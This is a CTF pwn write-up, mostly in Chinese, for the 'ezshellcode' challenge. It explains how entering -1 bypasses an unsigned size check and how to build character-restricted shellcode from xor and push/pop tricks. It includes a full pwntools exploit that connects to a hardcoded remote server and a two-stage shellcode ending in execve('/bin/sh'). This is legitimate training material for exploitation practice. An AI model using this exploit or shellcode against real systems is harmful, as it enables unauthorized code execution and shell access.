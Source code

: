 # ezshellcode

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

看似被size限制了大小，实际上在read的时候size是uint64_t，因此输入-1可以绕过size的问题；
但是题目还限制了输入的字符，考虑用异或和pop、push来控制寄存器和syscall(0x0f05)

先观察一下寄存器：
![regs](../assets/registers.png)

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x1456)')
    else:
        sh = remote('47.100.139.115', 31258)

    sh.recvuntil(b':')
    sh.sendline(b'-1') # size is ulong
    sh.recvuntil(b':')

    # payload 1, make read syscall to input unlimited shellcode
    code = '''
    xor byte ptr [rax + 0x36], bl
    xor bl, byte ptr [rax + 0x36]
    xor bl, byte ptr [rax + 0x33]
    xor byte ptr [rax + 0x31], bl
    xor byte ptr [rax + 0x32], bl
    push rdi
    pop rax
    push rsi
    pop rdx
    '''
    shc = asm(code)
    shc += b'PX'*15 + b'KAD'
    sh.send(shc)

    # payload 2, open shell
    code = '''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor esi, esi
    xor edx, edx
    push 0x3b
    pop rax
    syscall
    '''
    shc = asm(code)
    shc = b'0'*0x33 + shc # align with the next byte to be executed
    sh.send(shc)

    sh.interactive()
```

## shellcode详解

接下来是对第一段shellcode的解释

```as
xor byte ptr [rax + 0x36], bl ; 0X6
xor bl, byte ptr [rax + 0x36] ; 2X6 zero out bl
xor bl, byte ptr [rax + 0x33] ; 2X3 clone intermediate value
xor byte ptr [rax + 0x31], bl ; 0X1 make 0x0f
xor byte ptr [rax + 0x32], bl ; 0X2 make 0x05
push rdi ; W
pop rax  ; X zero out rax
push rsi ; V
pop rdx  ; Z sufficient bytes to read

push rax ; P
pop rax  ; X *15 fill up shellcode until the size reached 0x30

syscall  ; KA; will be xored to 0x0f05
?        ; D ; the intermediate value to make syscall

?        ; a byte at +0x36, will be used to store bl
```
